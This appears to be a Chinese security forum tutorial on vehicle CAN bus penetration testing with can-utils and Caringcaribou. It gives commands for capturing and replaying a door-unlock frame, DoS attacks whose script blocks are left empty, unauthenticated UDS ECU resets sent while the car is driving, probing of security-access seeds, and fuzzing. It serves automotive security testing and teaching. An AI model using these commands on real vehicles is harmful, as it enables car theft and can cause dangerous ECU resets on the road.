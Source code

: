 本演示希望起到一个梳理的作用，希望读者理解每一步的原理，多看标准，不要完全依赖工具。

常用CAN收发工具包括很多种，本篇以socket can搭配Caringcaribou为例展开介绍（socket can买免驱的，优点便宜、使用方便，Caringcaribou做can简直太好用，但也发现一个问题，缺少扩展帧的uds检测，二次开发中，把这个模块补上）

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-e7990a9beec20f25dcda5fa1e5da642edb3489aa.png)

### **环境搭建：**

**1.canutils**

1.1 kali执行如下命令

apt install can-utils

1.2 执行`candump -h`回显如下证明安装成功

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-5fcf4f1693c5a689d638e8f1c57cd2ad6e441571.png)

**2.Caringcaribou**

2.1 执行如下命令进行安装

下载Caringcaribou
===============

git clone <https://github.com/CaringCaribou/caringcaribou.git>

到文件目录执行安装程序
===========

cd caringcaribou  
python3 setup.py install

\# 安装 python can 库  
pip3 install python-can

### **演示**

### **重放攻击**

1.1 candump监听Can总线数据 （此处是破线接入车辆can网络）

`candump can0 -l`

1.2 按动车钥匙中的开锁按钮

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-4632299cb7a2a57444ae64610d99189474606d3f.png)

1.3 停止抓包并对抓到的数据进行处理

`cat candump.log | awk '{print $3}' > res.txt`

1.4 利用Caringcaribou工具进行重放攻击

`cc.py fuzzer identify res.txt`

1.5 根据汽车是否出现对应反应选择y/n, 获取开关车门数据包

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-4559c3c685666e2670cc89308bf5b514ebca075a.png)

1.6 对开关车门数据包进行重放

`cansend can0 100#3d157d40d9000560`

观察到车锁成功被开启

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-4632299cb7a2a57444ae64610d99189474606d3f.png)

再重放一次数据包,发现车锁成功关闭

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-4632299cb7a2a57444ae64610d99189474606d3f.png)

### **DoS攻击**

### **（1）过载Dos攻击**

此处使用CANoe实现过载DOS攻击

代码如下

```php
variables
```

**（2）优先级Dos攻击**

编写shell脚本向can总线发送10000条垃圾数据

`vim dos.sh`

写入如下内容

```php
#!/bin/bash
```

运行该shell脚本

chmod +x dos.sh  
./dos.sh

### **UDS探测**

通过OBD接口连接车辆Can总线,对Can总线进行抓包尝试

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-46ab3e3fc950174e55983a39c412fda9dcc1388f.png)

`candump can0`

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-7a44837f23a4107e2812bd44994c0d7655eed499.png)

未获取到数据,说明网关对Can总线和OBD接口进行了隔离,无法直接抓到Can报文

向Can总线发送UDS诊断请求,回显正常,说明Can总线工作正常

**方法一：**

**UDS服务扫描**` `

`cc.py uds discovery`

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-eb9ea3b41ea31a30b27c928ce188d29532ffb307.png)

**探测支持的服务ID**

`cc.py uds services src ds`

`cc.py uds services 0x607 0x608`

进行服务探测,发现0x27,0x29服务均存在

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-f35653400c27bc430ed5e07776877944c83fc65d.png)

尝试进行重置ECU,读取任意did等操作,发现并没有鉴权

`cc.py uds dump_dids 0x607 0x608`

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-3fe6667934cb56d219928ef47929e184aaeb4645.png)

切换至扩展会话模式

`cansend can0 607#0210030000000000`

在车辆行驶的过程中向车辆发送

**发送重置ecu请求，** 多次发送可以发现Ecu无限制重置

`cc.py uds ecu_reset 2 clientid serverid`

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-8a9e81d67f42778f5271565ac711d2e8152ea537.png)

**27服务安全性**

切换至编程模式

`cansend can0 607#0210020000000000`

多次请求安全种子，观察种子强度和重复

`cansend can0 607#0227010000000000`

**方法二：**

使用caringcaribou工具auto模块

自动化探测uds主要攻击面（但不适用扩展帧的uds检测，二次开发中）

```php
cc.py uds auto
```

**\*\*27服务安全性**  
\*\*

探测27服务种子强度和重复问题

```php
cc.py uds_fuzz seed_randomness_fuzzer 100311022701 0x733 0x633
```

种子重复且种子为8位，但前5位一致，有效位只为3位，可爆破种子，

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-a3c11ef4398eba550f9922c738de530e667ca090.png)


**模糊测试**
--------

1.1 candump监听Can总线

`candump can0 -l`

1.2 使用Caringcaribou向Can总线发送随机消息

`cc.py fuzzer random`

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-ba011cc69b469cecc95ca1e81712f2bb134c9421.png)

1.3 随时观察车辆是否发生异常现象,若发生,则停止candump监听,对数据进行处理

`cat candump.log | awk '{print $3}' > res.txt`

1.4 使用Caringcaribou进行重放以确认引起问题的数据包

`cc.py fuzzer identify res.txt`

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-93b2b8058d6be774075bb3ee583b2581f73ed2ff.png)


产品预告

基于caringcaribou二次开发

适用扩展帧的uds检测

![图片](https://shs3.b.qianxin.com/attack_forum/2023/12/attach-c6720152e06e3c9daf7de06f27191d8e4786d8c1.png)
